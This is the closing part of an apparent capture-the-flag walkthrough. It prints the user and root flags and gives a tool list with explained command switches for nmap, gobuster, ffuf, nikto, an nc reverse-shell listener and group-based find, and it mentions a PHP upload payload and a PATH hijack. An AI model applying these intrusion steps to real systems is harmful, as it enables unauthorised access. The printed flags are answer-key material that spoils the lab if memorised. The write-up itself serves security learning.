Post-exploitation note: after reading flags, remove /tmp/cat and restore PATH to prevent command resolution issues.
4Flags and Final Access
User: f2c74ee8db7983851ab2a96a44eb7981 Root: af13b0bee69f8a877c3faf667f7beacf
5Additional Learning Resources
### Tools Used
nmap: initial host and service enumeration to identify the exposed HTTP and SSH attack surface.curl: raw HTTP inspection to capture headers, page content, redirects, and application clues directly from the response.gobuster: directory brute-forcing to enumerate reachable web paths with a wordlist.ffuf: fast content discovery and response filtering, useful for separating interesting results from routine noise.nikto: quick web server assessment for common misconfigurations and known risky patterns.nc: listener for the reverse shell triggered through the uploaded PHP payload.find: local filesystem enumeration after foothold, especially useful for locating files by ownership and group.
### Useful Command Switches
nmap -sC -sV $boxip
- -sC runs the default NSE script set for standard service checks. - -sV probes open ports to identify the service and version in use.
curl -i http://$boxip
- -i includes the HTTP response headers along with the body, which is useful for seeing server banners, cookies, and status codes.
gobuster dir -u http://$boxip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
- dir selects directory enumeration mode. - -u sets the target URL. - -w supplies the wordlist used for discovery.
ffuf -u http://$boxip/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -mc 200,301,302,403
- -u defines the target template, with FUZZ marking the injection point for wordlist entries. - -w sets the wordlist. - -mc filters matches to the chosen HTTP status codes so interesting paths are easier to spot.
nikto -h http://$boxip -C all
- -h sets the target host. - -C all tests all CGI directories Nikto knows about, which broadens coverage during web assessment.
nc -lvnp 4444
- -l listens for an incoming connection. - -v enables verbose output. - -n avoids DNS resolution delays by using numeric addresses only. - -p specifies the listening port.
find / -type f -group bugtracker 2>/dev/null
- -type f restricts results to regular files. - -group bugtracker filters for files owned by the bugtracker group. - 2>/dev/null suppresses noisy permission-denied errors from stderr.
### Suggested References
- Nmap Reference Guide
- curl Manual
- Gobuster GitHub Repository
- ffuf usage and options
- Nikto project documentation
- GNU find Manual
- Linux file permissions and SUID
- PATH command search behavior in Bash
- OWASP Broken Access Control
Rules and reproduction steps: github.com/purplepyram1d/rmm-multiplicity